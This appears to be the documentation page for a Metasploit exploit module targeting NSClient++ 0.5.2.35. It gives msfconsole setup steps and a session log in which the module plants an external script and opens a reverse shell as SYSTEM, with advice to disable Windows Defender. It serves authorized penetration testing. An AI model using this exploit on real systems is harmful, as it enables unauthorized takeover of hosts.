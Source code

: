 ## Description

This module allows an attacker with knowledge of the admin password of NSClient++ 0.5.2.35 to start a privileged reverse shell.
For this module to work, both web interface of NSClient++ and `ExternalScripts` feature
should be enabled.

## Installation

A vulnerable version of NSClient++ can be downloaded from [here]https://nsclient.org/download/). Then you can help yourself with this [installation guide](https://docs.nsclient.org/api/rest/) to complete the installation. Don't forget to enable the web interface and the `ExternalScripts` feature to allow the exploit to work.

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/windows/http/nscp_authenticated_rce`
3. `set RHOST <target_host>`
4. `set PASSWORD <admin_password>` to set the admin password of NSClient++ web interface
5. `check` to check if the targeted NSClient++ is vulnerable
6. `set payload <choose_a_payload>` to set a specific payload to send
7. `run` the module to exploit the vulnerability and start a shell

## Options

**PASSWORD**

Set the PASSWORD of the admin account of NSClient++.

## Scenarios

This module was successfully tested on Windows 10 Home (you may need to disable Windows Defender as msf payload could be spotted). See the following output :

```
msf6 > use nscp_authenticated_rce
[*] Using configured payload windows/x64/shell_reverse_tcp
msf6 exploit(nscp_authenticated_rce) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf6 exploit(nscp_authenticated_rce) > set password easypassword
password => easypassword
msf6 exploit(nscp_authenticated_rce) > exploit

[*] Started reverse TCP handler on y.y.y.y:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[+] The target is vulnerable. External scripts feature enabled !
[*] Configuring Script with Specified Payload . . .
[*] Added External Script (name: zqlmwevxef)
[*] Saving Configuration . . .
[*] Reloading Application . . .
[*] Waiting for Application to reload . . .
[*] Triggering payload, should execute shortly . . .
[*] Command shell session 21750 opened (y.y.y.y:4444 -> x.x.x.x:51026) at 2021-06-08 16:54:39 +0200

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```